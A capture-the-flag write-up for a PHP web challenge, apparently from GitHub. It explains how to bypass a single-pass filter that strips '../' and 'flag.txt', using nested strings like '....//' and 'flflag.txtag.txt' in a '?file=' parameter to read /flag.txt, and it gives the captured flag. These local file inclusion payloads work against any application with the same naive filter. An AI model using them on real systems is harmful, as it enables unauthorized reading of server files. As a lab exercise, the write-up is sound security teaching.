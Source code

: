 # 『elefay』
> Flag file in /flag.txt

> Link: 10.4.79.68:20005

author: anarchistx

# 『The challenge』

We're given this challenge

<img width="757" height="298" alt="image" src="https://github.com/user-attachments/assets/09431c07-6da4-483b-a017-bead17b27bfe" />

So it should be path traversal. let solve!

# 『Solving challenge』
> Solve by: Lylera_

So this is path traversal - lfi (local file inclusion). if you notice this one

```
if (isset($_GET['file']) && $_GET['file'] !== '') {
  $file = preg_replace('/flag\.txt/i', '', preg_replace('/\.\.\//', '', $_GET['file']));
```

which mean it get some file `flag.txt` by using `?file=` but remember, if you use `../../` it will replace to `''` which is nothing.

So how to face this one? simple. try this command: `?file=/`

<img width="831" height="176" alt="image" src="https://github.com/user-attachments/assets/0c8e1709-930c-4067-a701-8bf9d156eadb" />

it will show up an error of this because it cannot be replace `/`. but you use `../` it will replace.

By this, you know the pattern. Try this `....//`

<img width="799" height="213" alt="image" src="https://github.com/user-attachments/assets/933615e5-dc4d-427d-b557-2d007722b2bb" />

you can double `../` this one and it will replace once, not twice. so this will leave the pattern. next one execute time.

# 『Flag』

try this:
```
?file=/....//....//flflag.txtag.txt
```

<img width="663" height="122" alt="image" src="https://github.com/user-attachments/assets/195ea227-28e6-46d0-bbbf-3430797fcdfc" />


or this one:
```
?file=....//....//....//flflag.txtag.txt
```

<img width="653" height="146" alt="image" src="https://github.com/user-attachments/assets/abe3dfd6-7440-49c1-bbcd-d47b9029ff89" />

```
Flag: compit{k4mu_j4g0_b4ng3t_s1h_b4n9_m44f_ya_pr0bs3t_s3d4ng_m4l4s}
```
